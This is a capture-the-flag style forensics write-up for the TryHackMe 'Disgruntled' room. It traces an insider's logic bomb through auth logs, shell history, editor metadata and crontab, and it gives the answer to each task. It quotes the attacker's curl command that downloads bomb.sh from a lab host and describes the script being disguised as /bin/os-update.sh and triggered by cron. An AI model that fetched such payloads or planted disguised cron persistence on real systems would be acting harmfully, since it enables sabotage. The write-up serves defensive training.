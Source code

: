 📝 Project Title:

TryHackMe – Disgruntled: Linux Forensics for Post‑Employment Logic Bomb Detection

🎯 Objective:

Investigate a Linux host for signs of malicious insider activity following a suspicious event. Focus on uncovering privilege escalation, unauthorized user creation, script creation and deployment (logic bomb), persistence mechanism via cron, and intended destructive action.

🛠️ Tools Used:

Linux command‑line (grep, cat, ls, cd)
/var/log/auth.log for sudo log auditing
User history analysis (.bash_history, .viminfo)
File metadata inspection (ls ‑la, file timestamps)
Text editors (vi, nano)
crontab analysis

❌ Skills Demonstrated:

Privileged access and process tracking via auth logs
Analysis of insider threat behavior (user creation, logic bomb)
File metadata and script content inspection
Persistence detection via scheduled tasks (cron)
Contextual timeline reconstruction

Project Overview

In this scenario, you assume the role of a Linux forensic analyst in a simulated environment where a disgruntled IT employee may have deployed a logic bomb. You begin by reviewing privileged activity logs in /var/log/auth.log, follow command execution chains through user histories and metadata, identify the logic bomb script and its scheduled activation, and deduce the intended harmful action.

🔍 Task Breakdown


✏️ Task 1: The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

⭕️ Objective: Find the exact command used to install a package with sudo.

⭕️ Method:
grep sudo /var/log/auth.log | grep install
Extract full command.

🔱 Answer: /usr/bin/apt install dokuwiki

✏️ Task 2: What was the present working directory (PWD) when the previous command was run?

⭕️ Objective: Determine what directory the install command was run from.

⭕️ Method: The same auth log entry includes a PWD field.

🔱 Answer: /home/cybert

📸 Screenshot Space: 

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/1-1.png)   

✏️ Task 3: Which user was created after the package from the previous task was installed?

⭕️ Objective: Find the first user account added post-install.

⭕️ Method:
grep sudo /var/log/auth.log | grep adduser

🔱 Answer: it-admin

✏️ Task 4: A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

⭕️ Objective: Determine when sudo privileges were added to the new user.

⭕️ Method:
grep sudo /var/log/auth.log | grep visudo

🔱 Answer: Dec 28 06:27:34

✏️ Task 5: A script file was opened using the "vi" text editor. What is the name of this file?

⭕️ Objective: Name the script file opened with vi.

⭕️ Method:
grep sudo /var/log/auth.log | grep vi

🔱 Answer: bomb.sh 

✏️ Task 6: What is the command used that created the file bomb.sh?

⭕️ Objective: Identify how the script was created (downloaded).

⭕️ Method:
cat /home/it‑admin/.bash_history | grep curl

🔱 Answer: curl 10.10.158.38:8080/bomb.sh --output bomb.sh

✏️ Task 7: The file was renamed and moved to a different directory. What is the full path of this file now?

⭕️ Objective: Determine where and under what name the script was saved.

⭕️ Method:
cat /home/it‑admin/.viminfo | grep saveas

🔱 Answer: /bin/os-update.sh

✏️ Task 8: When was the file from the previous question last modified? (Format: Month Day HH:MM)

⭕️ Objective: Find when the renamed script was last modified.

⭕️ Method:
ls -la /bin | grep os-update.sh

🔱 Answer: Dec 28 06:29

✏️ Task 9: What is the name of the file that will get created when the file from the first question executes?

⭕️ Objective: Name the file created by the logic bomb.

⭕️ Method:
cat /bin/os-update.sh

🔱 Answer: goodbye.txt

✏️ Task 10: At what time will the malicious file trigger? (Format: HH:MM AM/PM)

⭕️ Objective: Discover when the malicious script is set to execute.

⭕️ Method:
cat /etc/crontab
Use crontab format to decode timing.

🔱 Answer: 08:00 AM

🔍 Analysis and Reflection

💡 Challenges Faced:

Tying sudo log entries to specific user activity
Reconstructing hidden file operations via .viminfo
Decoding cron timing into human-readable form

💡 Lessons Learned:

Linux auth logs are invaluable for untangling insider threats
Shell histories and editor metadata can reveal hidden workflows
Cron job analysis is essential for discovering persistence mechanisms

💡 Relevance to SOC / Incident Response:

Demonstrates tracking of privilege misuse and logic bomb deployment
Shows how forensic artifacts (logs, histories, metadata) tie into a timeline
Useful for developing alerting mechanisms (e.g., new user + cron file change)

💡 Relevance to Penetration Testing / Red Teaming:

Illustrates post‑access misuse and misuse of built‑in tools
Highlights tool misuse and stealth via cron scheduling

✅ Conclusion

Using Linux logs and forensic artifacts, the investigation revealed an illicit script install and scheduling, culminating in the discovery of a logic bomb set to execute at 8 AM. Indicators? New it-admin account, /bin/os-update.sh, and scheduled /etc/crontab entry. Profiling these behaviors helps develop defenses and alerts.

💡 Skills Gained:

Auth.log and sudo history analysis
Reconstruction of post-exploit workflow
Cron-based persistence discovery
Timeline correlation across logs, histories, and filesystem

💡 Next Steps:

Build alerts for unusual sudo installs and user creation
Monitor /etc/crontab and script activity for anomalies
Simulate logic bombs for defense playbooks

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-2%20Part%20One.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-2%20Part%20Two.%20.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-3%20.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-1%20Part%20Two..png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-2.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-3.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-4.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Two..png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Three.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Four.png) 

